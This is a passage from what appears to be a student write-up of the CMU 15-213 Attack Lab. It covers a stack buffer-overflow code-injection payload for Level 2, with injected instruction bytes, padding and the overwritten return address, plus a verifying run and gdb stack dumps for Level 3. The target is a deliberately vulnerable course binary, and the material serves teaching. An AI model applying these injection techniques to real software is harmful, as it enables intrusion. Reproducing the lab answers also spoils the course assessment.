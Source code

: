 
### 4) Constuct attack string
The first part of our attack string is the injection code,which is: `48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3`. As it is short than 40 bytes. We can attach some random number behind it. I choose I use the ASCII of `'a'`. So the first part of our attack code is: `48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61`.
Then combine it with the last part of our attack string, which is in step 2), we can get the full attack code:
```
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 78 dc 61 55 00 00 00
```

### 5) Verification result:
Run the program, we can get such the successful result (`level2.txt` contains our attack string):
```
li@li-KLV-WX9:~/Desktop/CMU-152-13/target1$ cat level2.txt | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
    user id	bovik
    course	15213-f15
    lab	attacklab
    result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 78 DC 61 55 00 00 00
```


## Level 3:
### 1)  Analyse the problem:
In this section, we are faced with two problems. The first problem is that we should rediret our program to the fucntion `touch3()`, which is very similar to the privous 2 levels. And second problem is that we must satisfy the test `strncmp(sval, s, 9) == 0`, which means the string `sval` and `s` must be equal. `s` is a pointer to our `cookie` as a string, i.e the string `"59b997fa"`. The content of the string is constant but the address of the string is random. And `sval` is a pointer points to the string we have to compare with `s`. Because `s` has a random address, we can not just let `sval` points to the same address of `s`. Instead, we should construct the string and store it somewhere. Then, let the `sval` point to the constructed string. That's how we can pass the test.
The general process is similar to level 2. In the function `getbuf()` We use buffer overflow to redirect our program to our injection code. Then use the injection code to construct our string. Finally, redirect our program to `touch3()`.

### 2)  Find the address to store the string
As the function `hexmatch()` and `strncmp()` will rewrite our stack. So, we can't store our string in the injection string. We must store it somewhere else. We can do this by inspecting memory near the run-time stack before and after the excuation of `hexmatch()`, where `0x5561dc78` is the address of the start of our injection code:
Before:
```
(gdb) x/200bx 0x5561dc78
0x5561dc78:	0x48	0xc7	0xc7	0x8c	0xdc	0x61	0x55	0x68
0x5561dc80:	0xfa	0x18	0x40	0x00	0xc3	0x61	0x61	0x61
0x5561dc88:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
0x5561dc90:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x35
0x5561dc98:	0x39	0x62	0x39	0x39	0x37	0x66	0x61	0x00
0x5561dca0:	0xfa	0x18	0x40	0x00	0x00	0x00	0x00	0x00
0x5561dca8:	0x09	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x5561dcb0:	0x24	0x1f	0x40	0x00	0x00	0x00	0x00	0x00
0x5561dcb8:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x5561dcc0:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dcc8:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
0x5561dcd0:	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4	0xf4
```